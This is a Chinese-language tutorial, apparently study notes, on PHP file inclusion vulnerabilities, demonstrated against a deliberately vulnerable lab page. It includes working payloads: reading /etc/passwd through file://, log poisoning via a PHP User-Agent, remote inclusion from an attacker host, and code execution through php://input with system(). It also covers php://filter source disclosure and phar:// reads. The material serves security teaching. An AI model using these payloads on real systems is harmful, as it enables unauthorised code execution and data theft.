# PHP文件包含（File Include）

### 概述：

​	PHP的文件包含漏洞允许攻击者将外部文件包含到PHP页面中。这通常是因为应用程序的不当输入验证和不安全的文件处理操作所导致的。例如以下`fileinc.php`的代码：

```php
// fileinc.php
<?php
    if (isset($_GET['page'])){
        $page = $_GET['page'];
    } else {
        echo "Please input page parameter";
    }
    include_once($page);
```

​	这段代码直接将用户输入的 `page` 参数作为 `include_once()` 函数的参数，而没有进行任何过滤。这种做法，即将关键操作交给用户输入，是极其危险的。由于PHP的语言特性，PHP会将通过 `include()`, `include_once()`, `require()`, `require_once()` 等方法包含的任何文本视为PHP代码来处理。这意味着，在文件上传漏洞中常见的“图片马”（即隐藏在图片文件中的恶意代码）可以与文件包含漏洞结合使用，从而使这些隐藏代码得以执行。文件包含漏洞的潜在影响非常广泛，是一种极具危险性的安全漏洞。接下来，我们将详细探讨这一漏洞的各种潜在用途和危害。


### 本地文件包含（LFI）:

​	以上面的代码为例子，假设我们同目录下面有另一个文件，叫`phpinfo.php`，由于上面的代码有文件包含漏洞，因此可以直接读取`phpinfo.php`中的内容：

```php
// phpinfo.php
<?php
    echo phpinfo();
```

​	访问`fileinc.php`并传递参数`page`：



​	在这种情况下，`fileinc.php` 将成功地包含 `phpinfo.php` 中的内容。值得注意的是，文件包含漏洞并不限于访问同一目录下的文件；它实际上能够访问任何Web用户具有读取权限的文件。例如，它可以用于访问系统的 `passwd` 文件：


​	以及其他敏感文件。只要对这些文件具有读取权限，它们就可以被包含，并且其内容会被输出到PHP页面上。更为关键的是，任何被包含文本中的PHP代码都将被执行。这构成了一个巨大的安全隐患，因为即使没有文件上传功能，用户仍然可能有办法向服务器写入自定义的数据，例如通过操作日志文件。

​	假设使用的是nginx服务器，`/var/log/nginx/access.log`有读权限，我们先随意访问一下，看看会日志文件会记录什么内容：

```shell
192.168.206.1 - - [23/Jan/2024:11:45:33 +0800] "GET / HTTP/1.1" 304 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0"
```

​	日志文件记录了一个`User-Again`（用户浏览器类型）的内容，而这个内容我们是可控的，我们试着改一下：



​	再查看一下日志：

```shell
192.168.206.1 - - [23/Jan/2024:11:51:02 +0800] "GET / HTTP/1.1" 200 259 "-" "<?php echo phpinfo(); ?>"
```

​	这样，这段代码就被写入进服务器了。然后我们在浏览器中利用文件包含漏洞读取该文件：

 

### 远程文件包含（RFI）

​	远程文件包含（Remote File Include）发生在应用程序包含远程服务器上的文件时，通常需要`allow_url_fopen`配置项被设置为`on`，使得PHP可以通过URL打开文件。这是一个非常危险的行为，开启这个配置项就意味着所有一旦服务器没有对用户的输入进行严格的过滤，则意味着用户可以在服务端执行任意的PHP代码。

​	假设服务器`192.168.206.131`开启了`allow_url_fopen`配置项，且上有一个文件`fileinc_php`代码如下：

```php
// fileinc.php
<?php
    if (isset($_GET['page'])){
        $page = $_GET['page'];
    } else {
        echo "Please input page parameter";
    }
    include_once($page);
```

​	攻击者发现这里存在远程包含漏洞，于是在攻击服务器`192.168.206.132`上构造如下攻击代码：

```php
<?php
    echo phpinfo();
```

​	在访问131服务器的时候将`page`参数设置为攻击代码的路径：



​	成功地包含了攻击者的代码，显现了一个严重的 PHP 代码执行漏洞。需要注意的是，尽管攻击者的服务器运行的是 PHP 8.2 版本，而目标服务器（靶机）运行的是 PHP 7.2 版本，通过 RFI 包含的 `phpinfo()` 函数显示的仍是攻击者服务器上的 PHP 版本信息。这是因为，在远程文件包含漏洞中，实际上包含的是 PHP 文件的执行结果，而非 PHP 代码本身。因此，这里显示的是 `attack.php` 在攻击服务器上的执行结果。

​	要在目标服务器（靶机）上显示其自身的 PHP 配置，需要采取不同的方法。这通常涉及修改攻击服务器上的 PHP 文件扩展名。当 PHP 文件的扩展名从 `.php` 更改为其他文本类型的后缀时，目标服务器在包含该文件时，会将其视为文本。如果这段文本符合 PHP 语法，且目标服务器的配置允许执行这类包含的代码，那么这些代码将在目标服务器上执行。例如，可以将 `attack.php` 改名为 `attack.txt`，然后在目标服务器上包含此文件，以尝试执行其内容作为 PHP 代码。



​	这里的PHP版本变为了服务器版本7.2，注意看URL中的最后一个文件后缀为`txt`而不是`php`。不仅是`txt`文本，一些二进制文件也可以被包含，例如`png`文件：



​	图中是一个图片马（向普通图片中注入恶意代码），其中有一段PHP代码被服务器解析执行了。

> 具体如何制作图片马在**`Upload文件上传.md`**中有讲到。


### 伪协议

​	PHP中的伪协议（伪协议封装器）是特殊的封装协议，允许访问不同类型的数据流。这些伪协议在处理文件包含漏洞时尤其重要，因为它们可以被用来执行非预期的操作，从而增加安全风险。PHP常见的伪协议如下：

+ **`file://`协议：**用于访问本地或远程文件，语法为：

```php
file://<File Path>
// 例如：
http://192.168.206.131/security/fileinc.php?page=file:///etc/passwd
```

> `file:///etc/passwd`这里file后面有三个`/`，其中最后一个`/`是根目录的意思。



​	利用file协议就可以读取服务器上任意有读权限的文件。

+ **`php://`协议：**用于访问各种I/O流。如STDIN（标准输入流）、STDOUT（标准输出流）和STDERR（标准错误流），以及其他与流相关的功能。`PHP://`协议有很多的“流的类型”，或者说是“流的标识符”。

  + **`php://input`：**`input`标识符允许读取原始的POST数据。它是一个只读流，可以多次打开和读取。这个伪协议不受`php.ini`中的`post_max_size`设置的影响。它对于获取非经过处理的 POST 数据非常有用，特别是对于处理 JSON 或 XML 数据的 RESTful API。

    使用`php://input`首先要打开输入流：

    ```php
    http://192.168.206.131/security/fileinc.php?page=php://input
    ```

    然后可以利用bp向服务器发包，由于已经开启了POST输入流，所以可以定义任意的POST数据，我们向POST中写入恶意代码：

    先抓包：

    ```http
    GET /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    ```

    > 这里需要把开头的GET请求改为POST请求。

    ```http
    POST /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    <?php echo phpinfo(); ?>
    ```

    然后我们就可以在后面自定义POST请求的Data了。这里定义一段PHP代码，看看效果：

    

    代码被成功执行。还可以有更多的`Payload`，例如利用`system()`查看当前目录下的文件：

    ```http
    POST /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 25
    
    <?php system('ls -la') ?>
    ```

    可以看到回显：

    

    综上：`php://input`是一个相当危险的协议，因为它可以导致任意代码执行。

    

  + **`php://filter`协议：**`php://filter` 是 PHP 中一个非常强大的伪协议，它用于在文件包含或文件操作过程中应用各种过滤器。通过这个伪协议，可以在数据被 PHP 脚本读取之前对其进行转换或处理。这在处理输入和输出数据时尤其有用，可以用于数据的加密、解密、压缩、解压缩等。

    `php://filter`协议的语法如下：

    ```php
    php://filter/[Option]/resource=[File Path]
    // Oprion包括 read（读取过滤器）、write（写入过滤器）和convert（转换过滤器）
    // File Path 为具体要处理的文件或流
    // 例如
    php://filter/read=convert.base64-encode/resource=myfile.txt
    ```

    假设服务器上有一个包含敏感信息（如一个标记）的 PHP 文件，如下所示：

    ```php
    <?php
        $flag = "flag{php_is_very_strong}";
    ```

    我们的目标是读取这个文件的内容。如果直接使用文件包含函数（如 `include` 或 `require`）去包含一个 PHP 文件，它通常会执行该文件的 PHP 代码，而不是显示其源代码。为了绕过这个限制，可以利用 `php://filter` 伪协议配合 `convert.base64-encode` 过滤器来读取文件。这样，我们可以将整个 PHP 文件的内容转换为 Base64 编码，从而避免 PHP 解释器执行该代码，同时将原始代码以编码形式输出到页面上。

    构造一个payload就可以将该文件读出来了：

    ```php
    http://192.168.206.131/security/fileinc.php?page=php://filter/read=convert.base64-encode/resource=/var/www/html/security/flag.php
    ```

    

    

    read、write两个选项也有很多参数：

    + `string.strip_tags` 将数据流中的所有html标签清除(php7.3.0废弃)
    + `string.toupper`    将数据流中的内容转换为大写
    + `string.tolower`     将数据流中的内容转换为小写
    + `string.rot13`         将数据流中的内容转换为rot13编码

  >Rot13 是一种简单的字母替换加密方法，它通过将英文字母表中的每个字母替换为它在字母表中向后移动 13 位的字母来工作。由于英文字母表共有 26 个字母，这种方法是其自身的逆过程。例如，字母 'a' 向后移动 13 位变成 'n'，而 'n' 再向后移动 13 位又回到了 'a'。因此，Rot13 是一种对称的替换加密算法，对信息进行两次 Rot13 编码将得到原始信息。由于其简单性，Rot13 并不提供真正的消息安全性，而通常用于在线论坛上隐藏剧透、解答等，或作为编程中的一个趣味性挑战。

  + **`phar://`协议：**是 PHP 中的一个伪协议，用于操作 PHP 归档（PHAR，PHP Archive）文件。PHAR 是一种特殊的归档文件格式，用于将一个完整的 PHP 应用程序或库打包成单个文件。这使得部署和分发 PHP 应用变得更加简便。`phar://` 伪协议允许通过文件系统函数访问 PHAR 归档内的文件，就好像它们是文件系统上的实际文件一样。

    `phar://`协议可以用来读取`zip`压缩文件中的数据，例如在`flag.zip`中有文件`flag.txt`，利用`phar://`将其读取出来：

    ```php
    http://192.168.206.131/security/fileinc.php?page=phar:///var/www/html/security//flag.zip/flag.txt
    ```

    

